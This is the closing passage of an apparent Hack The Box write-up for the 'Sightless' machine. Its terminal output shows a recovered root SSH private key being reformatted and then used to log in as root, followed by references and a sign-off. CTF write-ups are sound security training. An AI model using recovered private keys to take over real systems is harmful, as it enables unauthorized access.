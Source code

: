 Then exit vim with `:wq`.

I tried that and it worked.

```terminal
┌──[10.10.16.20]─[sirius💀parrot]-[~/ctf/htb]
└──╼[★]$ dos2unix id_rsa                 
dos2unix: converting file id_rsa to Unix format...
                                                                                                                                                                                              
┌──[10.10.16.20]─[sirius💀parrot]-[~/ctf/htb]
└──╼[★]$ vim --clean id_rsa              
                                                                                                                                                                                              
┌──[10.10.16.20]─[sirius💀parrot]-[~/ctf/htb]
└──╼[★]$ ssh -i id_rsa root@sightless.htb
Last login: Thu Dec 19 09:57:07 2024 from 10.10.16.20
root@sightless:~# id
uid=0(root) gid=0(root) groups=0(root)
root@sightless:~#
```

## **References**

<https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb>

<https://unix.stackexchange.com/questions/577402/ssh-error-while-logging-in-using-private-key-loaded-pubkey-invalid-format-and>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
